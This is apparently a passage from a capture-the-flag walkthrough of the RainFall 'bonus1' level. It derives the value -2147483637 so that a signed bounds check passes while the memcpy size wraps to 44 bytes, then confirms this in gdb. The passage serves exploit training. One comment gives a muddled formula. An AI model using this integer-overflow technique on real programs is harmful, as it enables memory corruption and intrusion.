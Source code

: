 ### 9. Mathematical Calculation for Exploitation
```bash
# Goal: Find negative nb where:
# 1. nb <= 9 (passes validation)
# 2. (nb * 4) when cast to unsigned = 44

# Working with 32-bit signed integers:
# Range: -2,147,483,648 to 2,147,483,647

# We need: nb * 4 = 44 (in unsigned representation)
# Let's work backwards from a large negative number:

# Starting with minimum 32-bit signed int: -2,147,483,648
# Divide by 4: -536,870,912 (still way too negative)

# We need something that when multiplied by 4 gives us 44
# In modular arithmetic: (nb * 4) mod 2^32 = 44

# Finding the value:
# We want: nb * 4 ≡ 44 (mod 2^32)
# One solution: nb = (2^32 - 44) / 4 + some multiple of 2^30

# Let's try: nb = -2,147,483,637
# nb * 4 = -8,589,934,548
# In 64-bit: 0xFFFFFFFE 0000002C
# Truncated to 32-bit: 0x0000002C = 44 ✓

# Verification:
# nb = -2,147,483,637 <= 9 ✓
# (nb * 4) & 0xFFFFFFFF = 44 ✓
```

## Exploitation Implementation

### 10. Testing the Integer Overflow Theory
```bash
bonus1@RainFall:~$ gdb bonus1
(gdb) run -2147483637 hello

# Set breakpoint after memcpy to see the copy size
(gdb) break *main+79
(gdb) run -2147483637 $(python -c 'print "A"*50')
Breakpoint 1, 0x08048473 in main ()

(gdb) x/x $esp+8  # Check the size parameter passed to memcpy
0xbffff6d8:     0x0000002c    # 0x2c = 44 bytes!

(gdb) print -2147483637 * 4
$1 = -8589934548
(gdb) print/x -8589934548 & 0xffffffff
$2 = 0x2c    # Confirms: 44 bytes after unsigned conversion!
```
